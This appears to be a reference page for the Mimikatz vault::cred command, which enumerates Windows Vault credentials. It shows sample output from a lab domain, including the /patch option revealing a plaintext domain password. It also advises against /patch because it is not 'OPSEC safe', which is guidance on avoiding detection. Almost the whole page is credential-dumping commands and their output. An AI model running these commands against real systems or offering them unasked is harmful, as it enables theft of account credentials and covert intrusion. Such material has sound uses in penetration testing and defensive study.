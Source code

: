 # cred

vault::cred enumerates vault credentials. More information can be found at Benjamin's guide [howto-\~-scheduled-tasks-credentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-scheduled-tasks-credentials). It has the following command line argument:

* `/patch`: [according to Benjamin](https://twitter.com/gentilkiwi/status/1241786155458277378) this option must be avoided as it is not OPSEC safe and DPAPI is a better solution

```
mimikatz # vault::cred
TargetName : TERMSRV/192.168.0.224 / <NULL>
UserName   : hacklab\m3g9tr0n
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential :
Attributes : 0

TargetName : Domain:target=TERMSRV/192.168.0.224 / <NULL>
UserName   : hacklab\m3g9tr0n
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential :
Attributes : 0

TargetName : WindowsLive:target=virtualapp/didlogical / <NULL>
UserName   : 02ihgxxcusaapvlp
Comment    : PersistedCredential
Type       : 1 - generic
Persist    : 2 - local_machine
Flags      : 00000000
Credential :
Attributes : 32
```

```
mimikatz # vault::cred /patch
TargetName : TERMSRV/192.168.0.224 / <NULL>
UserName   : hacklab\m3g9tr0n
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential : Suoer_SecretPass1!
Attributes : 0

TargetName : Domain:target=TERMSRV/192.168.0.224 / <NULL>
UserName   : hacklab\m3g9tr0n
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential : Suoer_SecretPass1!
Attributes : 0

TargetName : WindowsLive:target=virtualapp/didlogical / <NULL>
UserName   : 02ihgxxcusaapvlp
Comment    : PersistedCredential
Type       : 1 - generic
Persist    : 2 - local_machine
Flags      : 00000000
Credential :
Attributes : 32
```
